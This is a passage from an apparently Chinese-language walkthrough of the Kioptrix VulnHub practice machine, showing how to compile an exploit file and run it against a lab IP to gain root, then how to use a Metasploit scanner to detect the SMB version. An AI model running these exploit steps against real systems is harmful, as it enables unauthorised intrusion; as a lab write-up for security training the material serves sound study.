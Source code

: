 查看`10.c`文件，给出了用法

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\6.jpg)

那么直接进行编译即可

```shell
gcc 10.c -o exp
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\7.jpg)

编译成功，直接执行上面的用法，针对单个`ip`即可

```shell
./exp -b 0 -v 192.168.1.104
```

执行后，提权至`root`

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\8.jpg)



## 使用msf

把上面作为节点，这里是新的

这里还是要检测`smb`服务的版本，这里借助整个`msf`作为使用

使用下面命令启动`msf`，并搜索对应的模块

```shell
msfconsole
search type:auxiliary smb version detection
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\9.jpg)

那么使用该模块，命令如下

```shell
msf6 > use 0
msf6 auxiliary(scanner/smb/smb_version) > options

msf6 auxiliary(scanner/smb/smb_version) > set rhosts 192.168.1.104
msf6 auxiliary(scanner/smb/smb_version) > set rport 139
msf6 auxiliary(scanner/smb/smb_version) > options

msf6 auxiliary(scanner/smb/smb_version) > run
```

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\10.jpg)

执行后，会看到对应的版本信息

![](D:\stu\vulnhub\OSCP必刷靶场\kioptrix系列\pic-1\11.jpg)
